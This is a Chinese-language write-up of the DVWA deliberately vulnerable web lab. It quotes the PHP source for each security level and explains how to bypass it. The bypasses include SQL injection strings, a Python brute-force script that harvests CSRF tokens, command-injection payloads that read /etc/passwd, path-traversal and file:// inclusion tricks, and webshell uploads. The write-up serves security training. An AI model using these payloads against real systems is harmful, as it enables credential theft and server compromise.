



## Brute Force 暴力破解

### Low

```php
<?php

if( isset( $_GET[ 'Login' ] ) ) {
    // Get username
    $user = $_GET[ 'username' ];

    // Get password
    $pass = $_GET[ 'password' ];
    $pass = md5( $pass );

    // Check the database
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    if( $result && mysqli_num_rows( $result ) == 1 ) {
        // Get users details
        $row    = mysqli_fetch_assoc( $result );
        $avatar = $row["avatar"];

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "";
    }
    else {
        // Login failed
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```

1. 缺少防爆破机制,推测username为`admin`直接爆破password

burpsuite抓包,然后`Intruder`进行爆破,选中password中的参数



加载payload



可以看到`password`的返回长度不同,可以推测密码为`password`,然后进行手动登录验证



2. 手动注入

`$user=admin' or '1'='1`,`$pass`为空,构造出的SQL语句为`SELECT * FROM users WHERE user = 'admin' or '1'='1' AND password = '';`

`$user=admin'#`,`$pass`为空,构造出的SQL语句为`SELECT * FROM users WHERE user = 'admin'#' AND password = '';`

### Medium

```php
<?php

if( isset( $_GET[ 'Login' ] ) ) {
    // Sanitise username input
    $user = $_GET[ 'username' ];
    $user = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $user ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitise password input
    $pass = $_GET[ 'password' ];
    $pass = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $pass = md5( $pass );

    // Check the database
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    if( $result && mysqli_num_rows( $result ) == 1 ) {
        // Get users details
        $row    = mysqli_fetch_assoc( $result );
        $avatar = $row["avatar"];

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "";
    }
    else {
        // Login failed
        sleep( 2 );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```

`mysql_real_escape_string`将`\x00 \n \r \ ' " \x1a`进行转义,因此`$user`无法进行注入,同时对密码进行了md5,基本杜绝了从密码入手的可能

虽然登录失败会`sleep(2)`但是仍然可以进行爆破

### High

```php

<?php

if( isset( $_GET[ 'Login' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Sanitise username input
    $user = $_GET[ 'username' ];
    $user = stripslashes( $user );
    $user = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $user ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitise password input
    $pass = $_GET[ 'password' ];
    $pass = stripslashes( $pass );
    $pass = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $pass = md5( $pass );

    // Check database
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    if( $result && mysqli_num_rows( $result ) == 1 ) {
        // Get users details
        $row    = mysqli_fetch_assoc( $result );
        $avatar = $row["avatar"];

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "";
    }
    else {
        // Login failed
        sleep( rand( 0, 3 ) );
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

增加了token检测,如果要进行爆破,则必须先知道每一次访问的token

从token生成的原理可知,其使用了`uniqid()`,基于以微秒计的当前时间,生成一个唯一的ID,无法直接进行伪造

而从每一次请求的返回中,可以直接得到token,因此可以尝试直接用脚本进行爆破

```html
<form action="#" method="GET">
	Username:<br />
	<input type="text" name="username"><br />
	Password:<br />
	<input type="password" AUTOCOMPLETE="off" name="password"><br />
	<br />
	<input type="submit" value="Login" name="Login">
	<input type='hidden' name='user_token' value='b2a0a63f2706d8d8279ad9518bd9d026' />
</form>
```

```python
import requests
import re
import time


def get_token():
    url = "http://0.0.0.0:12345/vulnerabilities/brute/"
    cookie = {"PHPSESSID": "v6vr7164m2ffuer2mq5n9qbrq7", "security": "high"}  # 从burpsuite的数据包中提取cookie,从而免去登录
    r = requests.get(url, cookies=cookie)
    token_rule = r"name='user_token' value='(.+?)' />"
    token = re.findall(token_rule, r.text)[0]
    return token


def brute_force(token, password):
    url = "http://0.0.0.0:12345/vulnerabilities/brute/"
    payload = "?username=admin&password=" + password + "&Login=Login&user_token=" + token
    cookie = {"PHPSESSID": "v6vr7164m2ffuer2mq5n9qbrq7", "security": "high"}
    url += payload
    r = requests.get(url, cookies=cookie)
    if "Welcome to the password protected area" in r.text:
        return 1
    else:
        return 0


with open("/home/misaka/Documents/rockyou.txt") as f:
    while 1:
        password = f.readline()
        password = password.replace('\n', '')
        token = get_token()
        if brute_force(token, password) == 1:
            print(password, token)
            exit(0)
        time.sleep(0.05)

```

跑出来的结果为`password 17c348ca70f683e9ec63dbb716eb788f`,因此密码为`password`

### Impossible

```php
<?php

if( isset( $_POST[ 'Login' ] ) && isset ($_POST['username']) && isset ($_POST['password']) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Sanitise username input
    $user = $_POST[ 'username' ];
    $user = stripslashes( $user );
    $user = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $user ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitise password input
    $pass = $_POST[ 'password' ];
    $pass = stripslashes( $pass );
    $pass = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $pass = md5( $pass );

    // Default values
    $total_failed_login = 3;
    $lockout_time       = 15;
    $account_locked     = false;

    // Check the database (Check user information)
    $data = $db->prepare( 'SELECT failed_login, last_login FROM users WHERE user = (:user) LIMIT 1;' );
    $data->bindParam( ':user', $user, PDO::PARAM_STR );
    $data->execute();
    $row = $data->fetch();

    // Check to see if the user has been locked out.
    if( ( $data->rowCount() == 1 ) && ( $row[ 'failed_login' ] >= $total_failed_login ) )  {
        // User locked out.  Note, using this method would allow for user enumeration!
        //echo "<pre><br />This account has been locked due to too many incorrect logins.</pre>";

        // Calculate when the user would be allowed to login again
        $last_login = strtotime( $row[ 'last_login' ] );
        $timeout    = $last_login + ($lockout_time * 60);
        $timenow    = time();

        /*
        print "The last login was: " . date ("h:i:s", $last_login) . "<br />";
        print "The timenow is: " . date ("h:i:s", $timenow) . "<br />";
        print "The timeout is: " . date ("h:i:s", $timeout) . "<br />";
        */

        // Check to see if enough time has passed, if it hasn't locked the account
        if( $timenow < $timeout ) {
            $account_locked = true;
            // print "The account is locked<br />";
        }
    }

    // Check the database (if username matches the password)
    $data = $db->prepare( 'SELECT * FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
    $data->bindParam( ':user', $user, PDO::PARAM_STR);
    $data->bindParam( ':password', $pass, PDO::PARAM_STR );
    $data->execute();
    $row = $data->fetch();

    // If its a valid login...
    if( ( $data->rowCount() == 1 ) && ( $account_locked == false ) ) {
        // Get users details
        $avatar       = $row[ 'avatar' ];
        $failed_login = $row[ 'failed_login' ];
        $last_login   = $row[ 'last_login' ];

        // Login successful
        echo "<p>Welcome to the password protected area <em>{$user}</em></p>";
        echo "";

        // Had the account been locked out since last login?
        if( $failed_login >= $total_failed_login ) {
            echo "<p><em>Warning</em>: Someone might of been brute forcing your account.</p>";
            echo "<p>Number of login attempts: <em>{$failed_login}</em>.<br />Last login attempt was at: <em>${last_login}</em>.</p>";
        }

        // Reset bad login count
        $data = $db->prepare( 'UPDATE users SET failed_login = "0" WHERE user = (:user) LIMIT 1;' );
        $data->bindParam( ':user', $user, PDO::PARAM_STR );
        $data->execute();
    } else {
        // Login failed
        sleep( rand( 2, 4 ) );

        // Give the user some feedback
        echo "<pre><br />Username and/or password incorrect.<br /><br/>Alternative, the account has been locked because of too many failed logins.<br />If this is the case, <em>please try again in {$lockout_time} minutes</em>.</pre>";

        // Update bad login count
        $data = $db->prepare( 'UPDATE users SET failed_login = (failed_login + 1) WHERE user = (:user) LIMIT 1;' );
        $data->bindParam( ':user', $user, PDO::PARAM_STR );
        $data->execute();
    }

    // Set the last login time
    $data = $db->prepare( 'UPDATE users SET last_login = now() WHERE user = (:user) LIMIT 1;' );
    $data->bindParam( ':user', $user, PDO::PARAM_STR );
    $data->execute();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

主要增加了失败次数达到3则锁定账户15分钟的设定,使得对用户和密码的爆破近乎不可能

## Command Injection 命令注入

### Low

```php

<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

`;cat /etc/passwd`即可直接读取

### Medium

```php

<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

过滤了`&&`和`;`,可以用`|`代替`|cat /etc/passwd`

### High

```php

<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

过滤的是`| `而不是`|`因此`|cat /etc/passwd`仍然有效

### Impossible

```php

<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $target = $_REQUEST[ 'ip' ];
    $target = stripslashes( $target );//删除反斜杠

    // Split the IP into 4 octects
    $octet = explode( ".", $target );//根据.将字符串打散成数组

    // Check IF each octet is an integer
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) {
        // If all 4 octets are int's put the IP back together.
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3];

        // Determine OS and execute the ping command.
        if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
            // Windows
            $cmd = shell_exec( 'ping  ' . $target );
        }
        else {
            // *nix
            $cmd = shell_exec( 'ping  -c 4 ' . $target );
        }

        // Feedback for the end user
        echo "<pre>{$cmd}</pre>";
    }
    else {
        // Ops. Let the user name theres a mistake
        echo '<pre>ERROR: You have entered an invalid IP.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

只有输入`num.num.num.num`的格式才能被执行,不存在漏洞

## CSRF 跨站请求伪造

### Low


## File Inclusion 文件包含

### Low

```php

<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```

无过滤,直接读`?page=/etc/passwd`

### Medium

```php

<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?>
```

还是可以直接读`?page=/etc/passwd`,或者利用双写来绕过`str_replace`,传入`..././..././..././..././..././etc/passwd`读取`/etc/passwd`

### High

```php

<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

`$file`必须以`file`开头,因此使用file协议进行读取`?page=file:///etc/passwd`

### Impossible

```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?>
```

白名单yyds

## File Upload 文件上传

### Low

```php

<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?>
```

无检测机制,可直接getshell

## Medium

```php

<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    // Is it an image?
    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        ( $uploaded_size < 100000 ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```

MIME限制,修改数据包中的MIME即可,`Content-Type: application/x-php`更改为`Content-Type: image/jpeg`

### High

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);//获取实际拓展名
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Can we move the file to the upload folder?
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }
        else {
            // Yes!
            echo "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

?>
```

上传带webshell的图片,然后用文件包含来getshell

### Imposible

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );


    // File information
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    // Where are we going to be writing to?
    $target_path   = DVWA_WEB_PAGE_TO_ROOT . 'hackable/uploads/';
    //$target_file   = basename( $uploaded_name, '.' . $uploaded_ext ) . '-';
    $target_file   =  md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
    $temp_file     = ( ( ini_get( 'upload_tmp_dir' ) == '' ) ? ( sys_get_temp_dir() ) : ( ini_get( 'upload_tmp_dir' ) ) );
    $temp_file    .= DIRECTORY_SEPARATOR . md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;

    // Is it an image?
    if( ( strtolower( $uploaded_ext ) == 'jpg' || strtolower( $uploaded_ext ) == 'jpeg' || strtolower( $uploaded_ext ) == 'png' ) &&
        ( $uploaded_size < 100000 ) &&
        ( $uploaded_type == 'image/jpeg' || $uploaded_type == 'image/png' ) &&
        getimagesize( $uploaded_tmp ) ) {

        // Strip any metadata, by re-encoding image (Note, using php-Imagick is recommended over php-GD)
        if( $uploaded_type == 'image/jpeg' ) {
            $img = imagecreatefromjpeg( $uploaded_tmp );
            imagejpeg( $img, $temp_file, 100);
        }
        else {
            $img = imagecreatefrompng( $uploaded_tmp );
            imagepng( $img, $temp_file, 9);
        }
        imagedestroy( $img );

        // Can we move the file to the web root from the temp folder?
        if( rename( $temp_file, ( getcwd() . DIRECTORY_SEPARATOR . $target_path . $target_file ) ) ) {
            // Yes!
            echo "<pre><a href='${target_path}${target_file}'>${target_file}</a> succesfully uploaded!</pre>";
        }
        else {
            // No
            echo '<pre>Your image was not uploaded.</pre>';
        }

        // Delete any temp files
        if( file_exists( $temp_file ) )
            unlink( $temp_file );
    }
    else {
        // Invalid file
        echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

理论上还说可以打,`imagecreatefrom`进行了二次渲染,二次渲染绕过见[upload-labs的Pass-16](https://github.com/AMDyesIntelno/huaQ/blob/ea613d5250950e8e4c1d3faee35597c02769f29b/%E9%9D%B6%E5%9C%BA/upload-labs/README.md#pass-16)

上传png图像,二次渲染后的图像仍然能够保留webshell,因此通过文件包含依然能够getshell

`http://0.0.0.0:12345/vulnerabilities/fi/?page=/var/www/html/hackable/uploads/b1551a38b5fac8a13c38605e7c4ad9ad.png`